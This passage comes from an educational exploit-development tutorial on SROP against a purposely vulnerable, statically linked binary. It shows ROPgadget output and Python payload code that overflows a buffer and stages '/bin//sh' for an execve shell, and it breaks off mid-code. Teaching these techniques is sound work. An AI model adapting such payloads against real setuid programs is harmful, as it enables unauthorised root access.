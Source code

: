 And the exploit worked.

## 4. Other interesting exploits

In the above section, it was a proof-of-concept to confirm that the vulnerability exists and see if we could do something interesting. We executed the ```exit(1)``` system call.

# 4.1 Simple shell using execve

The next step is to try and get a shell. In realistic scenarios, getting a normal shell helps in escalating privileges. The assumption is that the attacker already has remote access to the system as an unprivileged user and he finds a root-owned/setuid program he can run which has a buffer overflow vulnerability.

Let us assume that **code3** is that program and try getting a shell by executing ```execve``` system call using SROP. We want to execute the following:

```
execve("/bin/sh", NULL, NULL);
```

Basic structure of this exploit is similar to what we wrote in the previous section. Register ```rax``` will have ```execve```'s system call number, ```rdi``` will have the address of the string **"/bin/sh"**, ```rsi``` will have 0 and ```rdx``` will have 0. Only item of concern is the binsh string. My binary doesn't have it. What do we do?

I have conveniently statically linked my binary with fixed addresses for text, data and rodata address spaces. We can use ROP gadgets of the form (write, what, where). Please note that with a dynamically linked position independent binary along with ASLR, the exploit would be much harder. We have made it really easy so that we can understand the exploit method.

The [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) tool can be used to catch hold of write-what-where gadgets.

```
	[+] Gadget found: 0x47eff1 mov qword ptr [rsi], rax ; ret
	[+] Gadget found: 0x403ace pop rsi ; ret
	[+] Gadget found: 0x4005af pop rax ; ret
	[+] Gadget found: 0x4440c0 xor rax, rax ; ret
```

Let us start writing our exploit. Let us call it ```execve()``` function inside the same **exploit.py** file.

First of all, let us stitch gadgets which write the **/bin/sh** string into a known memory location.

```python
def execve():                                                                   
                                                                                
    # Add the initial junk                                                      
    payload = b''                                                               
    payload += b'\x41' * 120                                                    
                                                                                
    # Writing the string "/bin//sh" into the data section.                      
    payload += struct.pack('<Q', 0x0000000000403ace)    # pop rsi; ret          
    payload += struct.pack('<Q', 0x00000000006b90e0)    # .data                 
    payload += struct.pack('<Q', 0x00000000004005af)    # pop rax; ret          
    payload += b'/bin//sh'                                                      
    payload += struct.pack('<Q', 0x000000000047eff1)    # mov qword ptr [rsi], rax; ret
    payload += struct.pack('<Q', 0x0000000000403ace)    # pop rsi; ret          
    payload += struct.pack('<Q', 0x00000000006b90e8)    # .data + 8             
    payload += struct.pack('<Q', 0x00000000004440c0)    # xor rax, rax; ret        
    payload += struct.pack('<Q', 0x000000000047eff1)    # mov qword ptr [rsi], rax; ret
    payload += struct.pack('<Q', 0x00000000004006a6)    # pop rdi; ret          
    payload += struct.pack('<Q', 0x00000000006b90e0)    # .data                 
    payload += struct.pack('<Q', 0x0000000000403ace)    # pop rsi; ret          
    payload += struct.pack('<Q', 0x00000000006b90e8)    # .data + 8             
```